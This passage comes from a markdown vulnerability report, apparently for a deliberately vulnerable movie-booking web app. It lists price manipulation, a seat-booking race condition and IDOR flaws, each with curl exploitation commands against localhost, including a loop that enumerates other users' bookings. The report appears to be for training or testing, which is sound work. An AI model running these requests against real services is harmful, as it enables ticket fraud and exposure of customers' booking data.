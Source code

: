 **Exploitation**:
```bash
# Book tickets for $0.01
curl -X POST http://localhost:5001/api/bookings \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -d '{
    "movieId": "1",
    "seats": 2,
    "totalPrice": 0.01,
    "showTime": "19:00"
  }'
```

### 4.2 Race Condition in Seat Booking
**Location**: `server/routes/bookings.js` - Line 45-65  
**Severity**: Medium  
**Description**: Non-atomic seat reservation operations.

**Exploitation**:
```bash
# Run multiple concurrent requests
for i in {1..10}; do
  curl -X POST http://localhost:5001/api/bookings/reserve \
    -H "Content-Type: application/json" \
    -H "Authorization: Bearer YOUR_TOKEN" \
    -d '{"movieId": "1", "seats": 50}' &
done
```

---

## 5. Access Control Vulnerabilities

### 5.1 Insecure Direct Object Reference (IDOR)
**Location**: `server/routes/bookings.js` - Line 75-85  
**Severity**: High  
**Description**: Access any booking without ownership verification.

**Exploitation**:
```bash
# Access other users' bookings
curl http://localhost:5001/api/bookings/1
curl http://localhost:5001/api/bookings/2
curl http://localhost:5001/api/bookings/3

# Enumerate all bookings
for i in {1..100}; do
  curl -s http://localhost:5001/api/bookings/$i | grep -q "movie_title" && echo "Booking $i exists"
done
```

### 5.2 IDOR in Ticket Access
**Location**: `server/routes/tickets.js` - Line 85-120  
**Severity**: High  
**Description**: Access any ticket by ticket number without ownership check.
